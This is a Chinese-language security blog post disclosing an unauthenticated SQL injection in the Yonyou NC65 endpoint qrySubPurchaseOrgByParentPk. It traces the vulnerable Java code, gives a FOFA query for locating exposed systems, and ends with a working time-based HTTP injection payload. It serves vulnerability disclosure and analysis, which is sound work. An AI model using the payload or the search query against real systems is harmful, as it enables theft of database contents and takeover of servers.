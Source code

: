 # 用友NC qrySubPurchaseOrgByParentPk SQL注入漏洞

- Mrxn
- 发表于2025/6/12 08:25
- 42浏览
- [0评论](https://mrxn.net/jswz/yonyou-nc-ebvp-register-qrySubPurchaseOrgByParentPk-sqli.html#comment)
- 25分钟阅读
- 

------

# 漏洞简介

[用友](https://mrxn.net/tag/用友)NC 是一种商业级的企业资源规划，为企业提供全面的管理解决方案，包括财务管理、采购管理、销售管理、人力资源管理等功能，基于云原生架构，深度应用新一代数字技术，打造开放、 互联、融合、智能的一体化云平台，支持公有云、混合云、专属云的灵活部署模式。聚焦数字化管理、数字化经营、数字化平台等三大企业数字化转型战略方向，提供涵盖数字营销、智能制造、财务共享、人力共享与协同，智慧采购、数字中台等18大解决方案，助力大型企业全面落地数字化和业务流程优化。用友NC电子商务平台的 `qrySubPurchaseOrgByParentPk` 接口存在[SQL注入](https://mrxn.net/tag/SQL注入)漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

# 影响版本

NC65

# fofa语法

> ```
> app="用友-UFIDA-NC"
> ```

# 漏洞分析

直接看 `RegCommonController` 对应的 `doQuerySubPurchaseOrgByParentPk` 方法实现部分

```java
public Object doQuerySubPurchaseOrgByParentPk(HttpServletRequest request, HttpServletResponse response) {
        String pkGroup = request.getParameter("pk_group");
        String strOrgFilter = request.getParameter("org_filter");
        List<OrgVO> orgList = null;
        List<OrgPOJO> orgPojoList = new ArrayList();

        try {
            orgList = this.getSRMRegisterQueryService().queryRegisterOrgsFilterByName(pkGroup, strOrgFilter);
            if (orgList == null || orgList.size() == 0) {
                return orgPojoList;
            }
```

用户可控参数 `pk_group` 未经任何处理或校验过滤就直接带入 `queryRegisterOrgsFilterByName` 方法

```java
public List<OrgVO> queryRegisterOrgsFilterByName(String pkGroup, String filterName) throws BusinessException {
        List<OrgVO> retVoList = new ArrayList();
        Map<String, RegisterOrgVO> pkOrgMap = this.queryRegisterOrgs(pkGroup);
        if (pkOrgMap != null && pkOrgMap.size() != 0) {
            Set<String> keySet = pkOrgMap.keySet();
```

又被带入 `queryRegisterOrgs` 方法，跟进

```java
public Map<String, RegisterOrgVO> queryRegisterOrgs(String pk_group) throws BusinessException {
        if (pk_group != null && !pk_group.isEmpty()) {
            Map<String, RegisterOrgVO> registerOrgs = new HashMap();
            SqlBuilder sql = new SqlBuilder();
            sql.append(" and ");
            sql.append("pk_group", pk_group);
            sql.append(" and ");
            sql.append("cregisterorgid", " != ", pk_group);
            sql.append(" and ");
            sql.append("enablestate", 2);
            RegisterOrgVO[] vos = null;

            try {
                VOQuery<RegisterOrgVO> query = new VOQuery(RegisterOrgVO.class);
                vos = (RegisterOrgVO[])query.query(sql.toString(), (String)null);
```

很明显的直接将参数拼接进sql语句中，造成[SQL注入漏洞](https://mrxn.net/tag/SQL注入)。

而权限校验部分可以参考 [用友NC pkevalset SQL注入漏洞](https://mrxn.net/jswz/yonyou-nc-evalschedule-pkevalset-sqli.html) 部分

[![用友NC qrySubPurchaseOrgByParentPk SQL注入漏洞](https://img.mrxn.net/519dfcacc3ce40d7960ec19110f97b71.webp)](https://img.mrxn.net/519dfcacc3ce40d7960ec19110f97b71.webp)

# 漏洞复现

```http
POST /ebvp/register/qrySubPurchaseOrgByParentPk HTTP/1.1
Host: nc65.mrxn.net
Content-Type: application/x-www-form-urlencoded

pk_group=1' AND 1337=DBMS_PIPE.RECEIVE_MESSAGE('any',3)--
```